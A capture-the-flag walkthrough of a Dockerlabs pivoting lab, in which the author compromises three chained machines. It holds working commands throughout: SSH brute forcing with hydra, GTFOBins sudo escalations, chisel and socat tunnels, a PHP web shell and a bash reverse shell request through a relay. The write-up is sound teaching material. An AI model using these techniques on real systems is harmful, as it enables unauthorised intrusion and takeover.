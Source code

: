 
![image](https://github.com/user-attachments/assets/bb0e3da1-16cb-45b5-8aaa-83ceb2d81ed6)

---



`Creator`:  [El pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

`Page`: [Dockerlabs](https://dockerlabs.es/)


---

- I start scaning the open ports
    
    ```bash
    nmap -p- -vvv -sS --min-rate 5000 -Pn 10.10.10.2 -oG scan
    ```
    
    ![image 1](https://github.com/user-attachments/assets/c9f4e387-d513-4475-98cc-5794f733def5)

    

- Scanning open ports
    
    ```bash
    nmap -p22,80 -sCV 10.10.10.2 -oN ports
    ```
    
    ![image 2](https://github.com/user-attachments/assets/34723c1b-b745-4d0e-92ac-650f70fb379d)

    

- We enter the website
    
    ![image 3](https://github.com/user-attachments/assets/b009561c-4997-46aa-b0c2-17fe5f47c86a)

    

- We check the technologies being used by the web application
    
    ```bash
    whatweb 10.10.10.2
    ```
    
    ![image 4](https://github.com/user-attachments/assets/7362722a-a7fd-4e07-96ea-feb25c851cdd)

    

- We perform fuzzing to try to find directories
    
    ```bash
    gobuster dir -u http://10.10.10.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
    ```
    
    ![image 5](https://github.com/user-attachments/assets/36b52e26-f5c6-4b9b-b4d9-fbffdc4caf4f)

    

- I access the website `http://10.10.10.2/shop/`
    
    ![image 6](https://github.com/user-attachments/assets/b58ca28b-f2b5-4f14-9e14-935183aa164b)

    

- It seems that the web page has a parameter with which I can try to load a local file (`LFI`)
    
    ![image 7](https://github.com/user-attachments/assets/8ef7b4c8-659b-47c1-a721-ed1dd5178487)

    

- With the absolute path it does not load anything. When trying with relative paths I managed to load files
    
    ![image 8](https://github.com/user-attachments/assets/562dbb83-78fc-4ed1-a847-f1b12a875862)

    

- I discovered two users, `seller` and `manchi`. I make a brute force attack to try to connect via ssh with one of these users
- With the user `seller` I could not get his password but I could with `manchi`
    
    ```bash
    hydra -l manchi -P /usr/share/wordlist/rockyou.txt ssh://10.10.10.2
    ```
    
    ![image 9](https://github.com/user-attachments/assets/de2f3f21-3099-4bf1-93bb-a41dc5a6d499)

    

- I try to connected via ssh and after searching for a while for ways to escalate our privileges but I don´t found nothing. I tried to brute force with the user `seller`
    [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce)
    
    ```bash
    ./Linux-Su-Force.sh seller rockyou.txt
    ```
    
    ![image 10](https://github.com/user-attachments/assets/31421030-7368-475e-ada8-846fb73aeb85)

    

- I connect as seller and list the commands that I can execute as sudo without providing a password
    
    ```bash
    sudo -l
    ```
    
    ![image 11](https://github.com/user-attachments/assets/ad8bd9d9-3ca3-4560-8018-7146e3b93ef6)

    

- I search in gtfobins for ways to escalate privileges with sudo php and become root
    
    [GTFOBins](https://gtfobins.github.io/)
    
    ```bash
    CMD="/bin/sh"
    sudo php -r "system('$CMD');"
    ```
    
    ![image 12](https://github.com/user-attachments/assets/0cf33d8f-c7df-4e6d-866a-19ad175f50a5)

    

- I find out which ips this computer has 'hostname -I'. I apply a reconnaissance to see what other hosts are on network 20.20.20.0/24
    
    ```bash
    #!/bin/bash
    
    for i in $(seq 1 254); do
    	for port in 21 22 80 443 445 8080; do
    		timeout 1 bash -c "echo '' > /dev/tcp/20.20.20.$i/$port" &>/dev/null && echo "[+] Host 20.20.20.$i - PORT $port - OPEN" &
    	done
    done; wait
    
    ```
    
    ![image 13](https://github.com/user-attachments/assets/e32bed7a-3135-41bb-bc93-99ffc610c73c)

    

- I create a tunnel between the two machines using `chisel`
    
    ```bash
    #Execute this from your machine
    ./chisel server --reverse -p 1234
    
    #Execute this from the 10.10.10.2 machine
    ./chisel client 10.10.10.1:1234 R:1080:socks
    ```
    
    ![image 14](https://github.com/user-attachments/assets/237e7876-f4ef-434a-9471-5a057fa3c94a)

    
    ![image 15](https://github.com/user-attachments/assets/7d3e68cd-f442-48c4-bf18-8e03bfd25e23)

    
    - Add in `/etc/proxychains4.conf` the following line
        
        ```bash
        socks5 127.0.0.1 1080
        ```
        

- As we see that you have a web service on port 80, we perform an enumeration and find a secret.php file.
    
    ```bash
    gobuster dir -u http://20.20.20.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1080 -t 5 -x .php,.txt
    ```
    
    ![image 16](https://github.com/user-attachments/assets/4f1e30b3-f8cd-4401-a107-83760a14c036)

    

- We access the page defining a proxy and see a potential user
    
    ![image 17](https://github.com/user-attachments/assets/2d350fdb-8228-4fe2-85db-df1b3ea3162b)

    
    ![image 18](https://github.com/user-attachments/assets/e2c78509-a865-49f1-abd7-d74a2ff470e2)

    

- We make a brute force attack to try to connect via ssh
    
    ```bash
    proxychains4 hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://20.20.20.3 2>/dev/null
    ```
    
    ![image 19](https://github.com/user-attachments/assets/41eb500e-8443-4b5b-b68d-2741aa4304bd)

    

- I connect via ssh and see what commands you can execute as sudo without providing a password
    
    ![image 20](https://github.com/user-attachments/assets/8fe80456-9bba-4e31-85b0-9a24db2e11d3)

    

- I search in gtfobins for ways to escalate privileges with sudo vim and become root
    
    ```bash
    sudo vim -c ':!/bin/sh'
    ```
    
    ![image 21](https://github.com/user-attachments/assets/38ae33ba-b7c3-4c56-b1ac-9457a5708bce)

    

- I find out which ips this computer has 'hostname -I'. I apply a reconnaissance to see what other hosts are on network 30.30.30.0/24
    
    ![image 22](https://github.com/user-attachments/assets/9c37d0a7-6c05-40a8-8bfc-6eeff3f1f009)

    

- I create a tunnel between the three machines using `chisel` and `socat`
    
    ```bash
    ./chisel client 20.20.20.2:4237 R:8888:socks
    
    ./socat TCP-LISTEN:4237,fork TCP:10.10.10.1:1234
    ```
    
    ![image 23](https://github.com/user-attachments/assets/195ff51e-328f-4c55-8e67-6d8ab8f4164a)

    
    ![image 24](https://github.com/user-attachments/assets/628c4d59-3a5e-470d-9dd7-e302ffc31b80)

    
    - Add in `/etc/proxychains4.conf` the following line
        
        ```bash
        socks5 127.0.0.1 8888
        ```
        

- I scanned the 5000 most common ports and found port 80 open.
    
    ```bash
    nmap -sT -Pn --top-ports 5000 -open- --min-rate 5000 -vvv -n 30.30.30.3 2>/dev/null
    ```
    
    ![image 25](https://github.com/user-attachments/assets/df89e748-4ca2-4bd3-b383-b77690206ff5)

    

- I try to upload a php file with which I can execute commands (`RCE`)
    
    ![image 26](https://github.com/user-attachments/assets/7d181ac8-982a-41b5-bbef-4c249685fd2d)

    
    ![image 27](https://github.com/user-attachments/assets/3d56580d-0db1-4e6c-8f36-4bd82d8e8adc)

    

```bash
<?php 
	system($_GET['cmd']);
?>
```

- I perform fuzzing to find directories
    
    ```bash
    gobuster dir -u http://30.30.30.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt --proxy socks5://127.0.0.1:8888
    ```
    
    ![image 28](https://github.com/user-attachments/assets/df947804-acd2-46e2-b2e3-76e7d06aed88)

    

- I find where the file we have just uploaded is located and see that I can execute the following commands
    
    ![image 29](https://github.com/user-attachments/assets/732741c8-3ba3-453a-bd04-5a70303223b2)

    

- I create a tunnel so that when doing a reverse shell I get to our computer.
    
    ```bash
    #Victim 1 (10.10.10.2)
    ./socat TCP-LISTEN:4342,fork TCP:10.10.10.1:4341
    
    #Victim 2 (20.20.20.3)
    ./socat TCP-LISTEN:4343,fork TCP:20.20.20.2:4342
    ```
    
    ![image 30](https://github.com/user-attachments/assets/c05cf7f9-43e7-4533-b507-6abf987ba7b1)

    
    ![image 31](https://github.com/user-attachments/assets/3e4b6f93-d5b7-4bfd-b8b4-54b5dad313fe)

    

- I make the request to create the reverse shell
    
    ```bash
    http://30.30.30.3/uploads/a.php?cmd=bash -c "bash -i >%26 /dev/tcp/30.30.30.2/4343 0>%261"
    ```

    ![image 32](https://github.com/user-attachments/assets/7cfc766d-20e6-4f4d-81d3-34cb5642c072)

    

- I connect as www-data and list the commands that I can execute as sudo without providing a password
    
    ![image 33](https://github.com/user-attachments/assets/2187889a-e248-47bf-93e8-deec77345c22)

    

- I search in gtfobins for ways to escalate privileges with sudo env and become root
    
    ```bash
    sudo env /bin/sh
    ```
    
    ![image 34](https://github.com/user-attachments/assets/4c8aacb3-4727-4f7d-84d0-ffe634a99fd7)

